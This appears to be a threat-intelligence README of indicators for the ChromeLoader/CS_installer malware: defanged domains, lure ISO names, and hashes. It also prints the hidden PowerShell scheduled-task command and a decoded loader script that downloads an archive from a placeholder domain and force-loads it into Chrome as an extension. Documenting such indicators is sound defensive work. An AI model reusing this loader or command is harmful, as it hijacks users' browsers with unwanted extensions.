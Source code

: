 # Observed malicious IOCs for the CS_installer Malware

### Date of first occurrence

01-04-2022

### Domains Observed

```
hxxps[://]learnataloukt[.]xyz
hxxps[://]brokenna[.]work
```

### Malicious ISO

The Naming convention of the ISOs appear to be targeting young adults.

```
Universal Chat Spammer.iso
Roblox Muscle Legends Script _ AutoFarm + More ....iso
[UPDATED] Bee Swarm Simulator Script GUI _ Hack....iso
This_Young_Maidenhead_Family_Now_Makes_15800_..._1.iso
How To Install Shaders For Minecraft 1.18.1_1....iso => reported by reddit user remuchiiee
```

https://www.virustotal.com/gui/file/fa52844b5b7fcc0192d0822d0099ea52ed1497134a45a2f06670751ef5b33cd3

mounted ISO mainly contains:
```
\Device\CdRom0\CS_INSTALLER.EXE
\Device\CdRom0\CS_installer.exe.config
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\Microsoft.Win32.TaskScheduler.dll
```

### CS_installers

https://www.virustotal.com/gui/file/ded20df574b843aaa3c8e977c2040e1498ae17c12924a19868df5b12dee6dfdd  
https://www.virustotal.com/gui/file/5f57a4495b9ab853b9d2ab7d960734645ebe5765e8df3b778d08f86119e1695c  

### Scheduled Task

```
ChromeLoader

cmd /c start /min "" powershell -ExecutionPolicy Bypass -WindowStyle Hidden -E <base64EncodedPayload>
```

### Snippet of base64 decoded powershell script

```powershell
$extPath = "$($env:LOCALAPPDATA)\chrome"
$confPath = "$extPath\conf.js"
$archiveName = "$($env:LOCALAPPDATA)\archive.zip"
$taskName = "ChromeLoader"
$domain = "SomeMaliciousDomain"

$isOpen = 0
$dd = 0
$ver = 0

(Get-WmiObject Win32_Process -Filter "name='chrome.exe'") | Select-Object CommandLine | ForEach-Object {
	if($_ -Match "load-extension"){
		break
	}

	$isOpen = 1
}

if($isOpen){

	if(-not(Test-Path -Path "$extPath")){

		try{
			wget "https://$domain/archive.zip" -outfile "$archiveName"
		}catch{
			break
		}

		Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
		Remove-Item -path "$archiveName" -Force

	}
	else{

		try{
			if (Test-Path -Path "$confPath")
			{
				$conf = Get-Content -Path $confPath
				$conf.Split(";") | ForEach-Object {
					if ($_ -Match "dd")
					{
						$dd = $_.Split('"')[1]
					}elseif ($_ -Match "ExtensionVersion")
					{
						$ver = $_.Split('"')[1]
					}
				}
			}
		}catch{}

		if ($dd -and $ver){


			try{

				$un = wget "https://$domain/un?did=$dd&ver=$ver"

				if($un -Match "$dd"){
					Unregister-ScheduledTask -TaskName "$taskName" -Confirm:$false
					Remove-Item -path "$extPath" -Force -Recurse
				}

			}catch{}

			try{
				wget "https://$domain/archive.zip?did=$dd&ver=$ver" -outfile "$archiveName"
			}
			catch{}

			if (Test-Path -Path "$archiveName"){
				Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
				Remove-Item -path "$archiveName" -Force
			}

		}

	}

	try{
		Get-Process chrome | ForEach-Object { $_.CloseMainWindow() | Out-Null}
		start chrome --load-extension="$extPath", --restore-last-session, --noerrdialogs, --disable-session-crashed-bubble
	}catch{}

}
```

#### If you found additional IOCs that is not listed here, feel free to provide the *defanged* domain and ISO name as an issue.
